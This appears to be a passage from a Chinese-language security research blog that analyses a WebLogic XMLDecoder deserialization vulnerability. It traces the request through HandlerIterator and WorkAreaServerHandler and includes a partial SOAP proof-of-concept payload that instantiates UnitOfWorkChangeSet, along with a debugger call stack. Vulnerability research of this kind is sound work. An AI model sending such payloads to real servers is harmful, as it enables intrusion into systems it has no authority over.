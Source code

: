 但是继续跟进到handleRequestInternal的时候会报错Cannot retrieve request information for message test，再往前寻找调用过程中，也好像没啥可以利用的点，遂放弃

不过在中间过断点的过程中还是能知道大致的处理流程的，有多个handler集成在HandlerIterator中，里面的handler都叫handleRequest，我们之前关注的只是AsyncResponseHandler，后面还有WorkAreaServerHandler处理xml中的部分内容

![image-20221013101652555](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013101652555.png)

#### poc1 - UnitOfWorkChangeSet

*还是不得不感叹一句假poc的猖獗，甚至一些看着很“精美”的复现文章里也是如此。

先看一下最终poc长啥样

![image-20221012172607979](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221012172607979.png)

我们先构造个简易的poc发个包看看

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java><class><string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string><void><array class="byte" length="1"><void index="0"><byte>120</byte></void></array></void></class>
</java>
 </work:WorkContext>
 </soapenv:Header>
 <soapenv:Body>
```

我们的payload内容在WorkContext中，针对这部分xml有单独的WorkAreaServerHandler，直接在WorkAreaServerHandler中打断点根本断不下来（也可能是我脸黑），我们选择在HandlerIterator#handleRequest中截胡

![image-20221013103128677](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013103128677.png)

断在这个var5的地方，当this.index为16的时候就会进入WorkAreaServerHandler中

![image-20221013134849064](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013134849064.png)

这里的WorkContextXmlInputAdapter会继续调用WorkContextXmlInputAdapter#readUTF

![image-20221013135234883](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013135234883.png)

我们熟悉的xmlDecoder.readObject出现了（注1）；继续看调用栈，之后对xml的处理过程中会进入UnitOfWorkChangeSet

```
<init>:59, UnitOfWorkChangeSet (oracle.toplink.internal.sessions)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:57, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:525, Constructor (java.lang.reflect)
invokeInternal:295, Statement (java.beans)
access$000:58, Statement (java.beans)
run:185, Statement$2 (java.beans)
doPrivileged:-1, AccessController (java.security)
invoke:182, Statement (java.beans)
getValue:153, Expression (java.beans)
getValueObject:166, ObjectElementHandler (com.sun.beans.decoder)
// omit
readObject:250, XMLDecoder (java.beans)
readUTF:111, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readEntry:92, WorkContextEntryImpl (weblogic.workarea.spi)
receiveRequest:179, WorkContextLocalMap (weblogic.workarea)
receiveRequest:163, WorkContextMapImpl (weblogic.workarea)
handleRequest:27, WorkAreaServerHandler (weblogic.wsee.workarea)
handleRequest:141, HandlerIterator (weblogic.wsee.handler)
dispatch:114, ServerDispatcher (weblogic.wsee.ws.dispatch.server)
```